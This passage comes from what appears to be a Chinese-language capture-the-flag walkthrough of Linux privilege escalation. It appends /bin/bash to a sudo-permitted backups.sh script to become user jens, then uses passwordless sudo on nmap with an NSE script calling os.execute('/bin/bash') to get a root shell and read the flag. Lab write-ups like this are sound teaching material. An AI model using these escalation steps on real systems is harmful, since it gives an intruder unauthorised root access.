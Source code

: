 ```
whoami
sudo -l  #列出目前的权限
```

![image-20220317153939710](https://gitee.com/xxb667/img/raw/master/img/image-20220317153939710.png)

发现可以以 jens 用户的权限操作 /home/jens 目录下的 backups.sh 文件

backups.sh的内容为：

```sh
#!/bin/bash
tar -czf backups.tar.gz /var/www/html
```

![image-20220317154048181](https://gitee.com/xxb667/img/raw/master/img/image-20220317154048181.png)

在 backups.sh 文件末尾添加 /bin/bash ，当执行 backups.sh 文件时可切换至 jens 用户

```shell
echo "/bin/bash" >>/home/jens/backups.sh

```

切换文件夹到jens目录下

```
cd /home/jens
```

再实现下面命令

```
sudo -u jens ./backups.sh   #sudo -u指定用户执行命令
```

![image-20220317154512406](https://gitee.com/xxb667/img/raw/master/img/image-20220317154512406.png)

查看权限目录权限，可以不用密码以root权限执行/usr/bin/nmap这个文件

```
sudo -l
```

![image-20220317154631988](https://gitee.com/xxb667/img/raw/master/img/image-20220317154631988.png)

nmap 可以执行脚本文件，可以创建一个文件并写入反弹 shell 的命令，默认用root 权限执行，所以反弹的 shell 也是 root

```
echo 'os.execute("/bin/bash")' >aaa.nse
sudo -u root nmap --script=aaa.nse   #以root用户执行 nmap 
```

![image-20220317154750535](https://gitee.com/xxb667/img/raw/master/img/image-20220317154750535.png)

## 4.3.获取flag

```
cd /root
cat theflag.txt
```
